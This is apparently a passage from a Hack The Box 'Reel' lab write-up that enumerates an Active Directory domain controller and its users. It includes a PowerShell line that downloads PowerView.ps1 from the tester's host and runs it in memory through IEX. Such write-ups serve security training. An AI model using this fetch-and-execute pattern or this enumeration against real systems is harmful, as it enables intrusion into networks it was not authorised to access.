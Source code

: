 This seems to hint that there's a possible attack path from a domain user to some other high privilege group.

### Domain Controllers

```powershell
PS C:\users\nico> Get-ADDomainController


ComputerObjectDN           : CN=REEL,OU=Domain Controllers,DC=HTB,DC=LOCAL
DefaultPartition           : DC=HTB,DC=LOCAL
Domain                     : HTB.LOCAL
Enabled                    : True
Forest                     : HTB.LOCAL
HostName                   : REEL.HTB.LOCAL
InvocationId               : 84ca9046-73ea-4bbc-bd37-6fc9965c5efc
IPv4Address                : 10.129.1.151
IPv6Address                : dead:beef::191
IsGlobalCatalog            : True
IsReadOnly                 : False
LdapPort                   : 389
Name                       : REEL
NTDSSettingsObjectDN       : CN=NTDS Settings,CN=REEL,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,D
                             C=HTB,DC=LOCAL
OperatingSystem            : Windows Server 2012 R2 Standard
OperatingSystemHotfix      :
OperatingSystemServicePack :
OperatingSystemVersion     : 6.3 (9600)
OperationMasterRoles       : {SchemaMaster, DomainNamingMaster, PDCEmulator, RIDMaster...}
Partitions                 : {DC=ForestDnsZones,DC=HTB,DC=LOCAL, DC=DomainDnsZones,DC=HTB,DC=LOCAL,
                             CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL, CN=Configuration,DC=HTB,DC=LOCAL...}
ServerObjectDN             : CN=REEL,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=HTB,DC=LOCAL
ServerObjectGuid           : c404d18f-d79a-4c23-9020-dd88ac309214
Site                       : Default-First-Site-Name
SslPort                    : 636
```

### Domain Users

```powershell
PS C:\Users\tom> $pv = (New-Object Net.Webclient).DownloadString("http://10.10.14.81/PowerView.ps1")
PS C:\Users\tom> IEX $pv; Get-DomainUser | select samaccountname

samaccountname
--------------
Administrator
Guest
krbtgt
nico
tom
SM_dccf830a58da45dbb
SM_ff493709e894499a8
SM_139a5eb6ab994638a
SM_8257963a642b41bb9
claire
herman
brad
julia
ranj
brad_da
claire_da
```